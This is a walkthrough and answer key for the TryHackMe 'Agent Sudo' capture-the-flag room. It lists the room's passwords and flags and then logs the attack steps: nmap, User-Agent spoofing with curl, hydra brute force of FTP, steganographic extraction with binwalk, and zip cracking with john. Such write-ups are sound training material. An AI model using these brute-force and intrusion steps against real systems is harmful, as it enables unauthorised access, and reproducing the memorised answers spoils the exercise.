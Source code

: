 # <div align="center">[Agent Sudo](https://tryhackme.com/r/room/agentsudoctf)</div>
<div align="center">You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/4af38d66-6dd1-41ae-9086-7f17ffda540b" height="200"></img>
</div>


##  Task 1. Author note
```
No need
```
## Task 2. Enumerate
Enumerate the machine and get all the important information

### How many open ports?
```bash
3
```
### How you redirect yourself to a secret page?
```bash
user-agent
```
### What is the agent name?
```bash
chris
```
## Task 3. Hash cracking and brute-force
Done enumerate the machine? Time to brute your way out.

### FTP password
```bash
crystal
```
### Zip file password
```
alien
```
### steg password
```
Area51
```
### Who is the other agent (in full name)?
```
james
```
### SSH password
```
hackerrules!
```
## Task 4
Capture the user flag

### What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7
```
### What is the incident of the photo called?
```
Roswell alien autopsy
```
## Task 5
Privilege escalation
Enough with the extraordinary stuff? Time to get real.

CVE number for the escalation 

### (Format: CVE-xxxx-xxxx)
```
CVE-2019-14287
```
### What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
```
### (Bonus) Who is Agent R?
```
DesKel
```
<!-- 
<!-- 

## 1. Let start with basic scan 
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ sudo nmap 10.10.14.138 -sV -A -sC -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 11:46 IST
Nmap scan report for 10.10.14.138
Host is up (0.41s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.11 - 3.14 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 4.14 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   289.07 ms 10.17.0.1
2   ... 4
5   431.68 ms 10.10.14.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.57 seconds
```
### Three ports are open so Let check for web first 
![Screenshot from 2024-05-07 11-51-15](https://github.com/Esther7171/Agent-Sudo-Walkthrough-/assets/122229257/500c8eba-1fcc-493c-8264-66f6baea6bf2)
## As we see it a clue hide here we need to change user-agent in request we can do it with burpsuit but im using curl to more simplfy it 
### As i try few attempt and random guess i found out the Agent name is ```C``` , Then i change user-agent i got this,

```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -Lv
*   Trying 10.10.14.138:80...
* Connected to 10.10.14.138 (10.10.14.138) port 80
> GET / HTTP/1.1
> Host: 10.10.14.138
> Accept: */*
> User-Agent: C
> 
< HTTP/1.1 302 Found
< Date: Tue, 07 May 2024 06:23:54 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: agent_C_attention.php
< Content-Length: 218
< Content-Type: text/html; charset=UTF-8
< 
* Ignoring the response-body
* Connection #0 to host 10.10.14.138 left intact
* Issue another request to this URL: 'http://10.10.14.138/agent_C_attention.php'
* Found bundle for host: 0x557b30986800 [serially]
* Can not multiplex, even if we wanted to
* Re-using existing connection with host 10.10.14.138
> GET /agent_C_attention.php HTTP/1.1
> Host: 10.10.14.138
> Accept: */*
> User-Agent: C
> 
< HTTP/1.1 200 OK
< Date: Tue, 07 May 2024 06:23:54 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 177
< Content-Type: text/html; charset=UTF-8
< 
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 

* Connection #0 to host 10.10.14.138 left intact
```
## It Look to complicate look at this way I use ```curl``` then the web url and ```-H``` for ````--header```, ```-L``` for ```location``` 

```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -L  
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```
### Here is the msg that telling us That Our agent name is ```Chris``` and our password is weak, Maybe it talking about ftp password 

## 2. Let bruteforce Ftp
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.14.138 -t 40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-07 12:07:50
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ftp://10.10.14.138:21/
[21][ftp] host: 10.10.14.138   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 14 active
```
### ftp password is ```crystal`` user ```chris```

### Let login in ftp 
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ ftp 10.10.14.138 
Connected to 10.10.14.138.
220 (vsFTPd 3.0.3)
Name (10.10.14.138:death): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62879|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> 
```
### Let download all this file in our system use ```get``` to download 
```bash
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||47570|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*************************************************************************************************************************************************************************************************|   217        2.95 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.91 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||61174|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*************************************************************************************************************************************************************************************************| 33143       47.23 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (35.05 KiB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||31562|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*************************************************************************************************************************************************************************************************| 34842       63.62 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (45.99 KiB/s)
ftp> 
```
### We got a text file let read content of it
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
## 3. Let do stegnography
### Ok let check strings of both png and jpg
### basically jpg is empty and there is nothing but there is something inside the cutie.png 
```bash
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ strings cutie.png     
IHDR
PLTE
.(CA
b+FB
8">;&@B&A>9RO =:#<A
;8$@=
.)%>A
:&AA
74-HC
Z5NK
!:@t
"6SB
?/KB
C2OB
CZWn
,Rhc
T9X@>VRMc^
`H_[z
^rmGk>t
<Nq;
Q|?Be>>^>
\!EC
\Y|M
QsK}
vEeHm
PWw5
PLlJ
)[oa
W3D?y
aPAA=
.%sPHz6/|
nVE?e82
*tRNS
IDATx
HI-(./1
	OQv:
b-J$0)
_&*G
s-H$&
	GR6
N#aH.
0v;mu
-M&auuu
<:Dhs
-E8{
=Nx6
/]l2
VZ,B
!/=Oh
0~{+w
Gs$D0
rs*KK"T
V_}$
H=p>D
30Rc
'_yR
lCfYE
oDn^
$oBpc1
A<p:
qJnU
%'Ow
xPg&
ufe=
+Mq2U
Pddd
1C\7
|>&-
i!r)y=
~WJ6
1_;Vh
:xI$
^]]^1
9]#>
Xnuz%z
[@\$-
-?(S
Hqg&
g906
fT*	!
bW[D
|*=\x'
dTWk
9tE!
'=RE|
 '&w!s
 Hv[
S0)g
x1r]
La^n
=XX{
9Dxj
t?Pu
2[Yj
,Pc(d
urx 
cYqiZ<
}p|Ck
+)-7
p*}"
;GL@
\"Rd
iR\_
iRqK
RPDf
|.-.
)?S1	
EO>j
0#xhr
kj^m
'H|@
9C&,
%-eU
8%Z0
F@%;
S3Vb
gG!P
FEm'pcy
XC-+
u{0E\
0b!G
p7h'
Zx;d"F
!N+	{A<
:#33w
x6Zg
]zho
7n[F
]s.#
%fFg
AQD!
b+i#
*yc-
j^7k
2oaOi
G@L4?4
04	'
5I?1'
L+d(
{.rx
Yqqv
	E =
] fT
<KVk
9neB
,Rk{p8
}*@'
cmoGU
SlD/
UDn 
sg/|Yv
A>:9
Ur#4e
NOOO
jD	2
0[mV
#ASv
DHIT}
^ZBl
bttM
lE -
Qx:*p
Qt+9b
6}7v
#d0L
+km"
d$ >
dbhe
JCih
!/I&
0y0G
0d"G
o~:rJ(
&3JX
DJ,A2q<
<^}o
rq=E@.
nWLI5rT):\
;{F_<
" ni
h%xi
OsIt
+lX6~
8eVh
5PKf
AL;Y
*s.,
6Y~^
8}\hZ
DXU7
e@8@
95~N
c*#L|g9
?K*Jmy
mT!jc3
Ielm&1Fl
y(BXG
-.k(
eM!\UA
_	+*\#
n<n^$
;zBF
AUh|@G0ZE
jEEM
3yhL
Wn`1b
JoWc
4f:8
K.ZA
\2l|
XJ1'
1K*K
|$|e=
Z"P6
;ogK
'nj#
r,wa.
GLujU
goux<A
$\>Sb
TOjC
mv.-C
.\Z:2"p
Im9f
SP:b,
to\Wl
^j_@K
].*F8
J9s"
k]}[
qj<ZR
VIJ3
fD"5
v<mG
)Nu26
>/gk
<j:_P
";9#H
8~{U
v|zM3
/2w=O
t\iP
b>$'
7~G;g_
nBi	
fYi2
^:(r
#B_\S1
83Dl
y"F48
{YNJK
]C3i0
z9#c
+g$5<V
&Im6
YDu+
3E)W
D&vA
)$qf6
wuvv
P;8 
:I~H'
-3NH
4]S&cS
r@r&
l6c)
^>'/H
D)@v6*
rAB4
-?EE
rP"N
fMY*
lF"|1>+
pF<TS
a1_{
 i1.
e,Rn
zF#D
2}FyUp
F#;D}
[:/v
*!F-
hw D
TH'D
]Z	A-
UUTa
j%Dc
2)Ck;
UDaB
yaav
Wqww7
	{	1
G!6R%
0,#8
#Q1u]
tI_O
4e%M
zkY|
C+C4
8;cx's
5DxG
T.WiC
\DB|
h5er
%IDUL
8yLe,
ez	qF
V++S
C=,tu
VS.i2
Db@!
,C["R
13clO
SM/;e4
iw<&D
>buX
nB+p&F
|PA<
LBl+!!F
_fc4
:c<"%e
.C|;
e#D)
{t8F
@)nNE
otzz
WyQFd9X
Kc#D
aBl<
l4$Y
ofQif
H@&!t*~
=-B<
og4|
i8NwQ
M*4>
^0!F
Dtqlv
w<Xv
q`j{%1
J@j%
2-,>$
2;20
lb1"
|tLd<
0#6o
&fGg
 i7w
;COU@
?\>x
M$z6<
`wh+P
7xE 1
$DnB
xA__
wPF|
F-NC
r>_M
]NMt
<+<8
@1UkW
a\El
E)`F
ktr*
eDvQ
q|hhh
B')Y
VcTf
!#\~'
I6!8
y|\{
h383e
J*40
o^;r"
l9C'
:G'{
;U>45G9
$tf"
"KeU$
\j|{
#o}G
a'M(>
w?q|'
x}N.
vnW*w
KgVk
z5>vbP
?fi];
@2	<h
^)QuS
d,"t
.>~B4
Nf>?
t@fD
wYc&F
/v`w!L
 7vf
J,g`
R? |
J\NN
@fb|
:dcF
-J	U
 z"N-"z
C0]D
E1]Ey
$kSh
t\( D
i@W[[
_BK41hq
rjL'
lb;vr
l&c/D
IP79
_S+=
<u%+*?`
-?P{GK
+0"c
0{BQ
84<?4
i#:8
 ]@h^
aM`G
<UVp}
zORs
=3SX~
;.W*
tJ?;
qU~a
Tl>i
"B~7
!=#DY
iwf3"~
-pR('
h:t.
\QBL?
L3}Ov
&=%(
01iI
RK:<
(*[!m
{+|D
o;'G
$^ri~!W"
PMT>\s
f1 o
Q	!OkW
$:\x0
?('C[:
$Kr:T
1"+o
6#LPJ
2KU%
! HD
]<o$
5#XZ
%ZmYy
-!o<
1F@)
J9m|>
q"HM
Hl{:
<8@*4
576#
u$RJ
0533
b,jU
DKI|
:cDT
@jp.
R@%H:
w*j+
@Xp.
Oxm	
<c`R
_X(1
AHek
$pSF
-,|va
.A0,"oS I
f'x+
IB`L
55zm\
4V.U
W44fJ"@#
gQ[r
"TN)
t-zq
	%60
*%^(
AfCH
DUp#
WW_nll
\g9R
v:]}
kHu,
7FC:d%lv
]Hu9H
8vz7
7P<O^
.uk 
}mZl
s%_'q
mfOf
#)f]
aqnJ}
&19u
Ein?x
fP"j
i[+*)
1!<31
NB7X
<~;o
6;>!o
XDXT
w*Sp
	([b!
G9qE
(A}j
^MEjOk
L^ay
"P{J
d: ]
ZT%Q
p7a4u
^[=&
IEND
<!-- To_agentR.txt 
<!-- W\_z#
2a>=
<!-- To_agentR.txt        
<!-- 
EwwT
```
### There is hidden file is in zip format inside it there are text files
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ binwalk cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
### Let try to extract it, binwalk ```-e``` it stands for extract  
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ binwalk cutie.png -e 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

```
### Here we got a folder
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ cd _cutie.png.extracted          
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip
```
## 4. Let crack zip file
### Time to use zip2john to extract hash
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ zip2john 8702.zip > hash
```
### Let crack it using John
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)
```
### Hash cracked let see                                                                                                                                                                          
```bash                                                        
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ john hash --show
8702.zip/To_agentR.txt:alien:To_agentR.txt:8702.zip:8702.zip

1 password hash cracked, 0 left
```
### zip password is ```alien```
### Let extract it  -->

